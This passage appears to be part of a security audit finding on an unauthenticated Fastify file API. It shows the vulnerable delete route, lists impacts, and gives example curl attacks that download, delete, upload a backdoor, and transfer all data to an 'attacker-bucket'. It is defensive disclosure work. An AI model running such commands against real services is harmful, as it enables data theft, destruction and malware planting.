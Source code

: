 ```typescript
});

// Lines 186-203 - Anyone can delete files
fastify.delete('/files/:locationId/*', async (req, reply) => {
  const absolutePath = await validatePath(locationId, relativePath);
  await deleteFileOrDirectory(absolutePath);
});
```

**Impact:**

- **Data exfiltration:** Download any accessible file (models, datasets, secrets)
- **Data destruction:** Delete critical files and directories
- **Data injection:** Upload malicious files (malware, backdoors)
- **Resource exhaustion:** Fill disk with large uploads
- **Lateral movement:** Use as pivot point for further attacks
- **Compliance violations:** Access to PII/sensitive data without audit trail

**Attack Scenarios:**

```bash
# Scenario 1: Discover and exfiltrate all data
curl http://api/api/local/locations  # Find all storage locations
curl http://api/api/local/files/local-0/  # List files
curl http://api/api/local/download/local-0/sensitive-model.bin -O  # Steal data

# Scenario 2: Data destruction
curl -X DELETE http://api/api/local/files/local-0/important-dataset/  # Delete everything

# Scenario 3: Malware upload
curl -F "file=@backdoor.so" http://api/api/local/files/local-0/

# Scenario 4: Pivot to S3
curl -X POST http://api/api/transfer/transfer \
  -H "Content-Type: application/json" \
  -d '{"source": {"type": "local", "locationId": "local-0", "path": "/"},
       "destination": {"type": "s3", "locationId": "attacker-bucket", "path": "stolen/"}}'
```

**Positive Security Controls Present:**
✅ **Path traversal protection:** `validatePath()` function implements comprehensive security checks:

- URL decoding to prevent encoded traversal
- Unicode normalization to prevent Unicode attacks
- Null byte rejection
- Backslash rejection
- Absolute path rejection
- Symlink resolution with bounds checking
- Comprehensive test coverage (596 lines of security tests)

✅ **File size limits:** `MAX_FILE_SIZE_BYTES` enforced on uploads

❌ **BUT:** All security controls are bypassed by lack of authentication - they only prevent directory traversal, not unauthorized access.
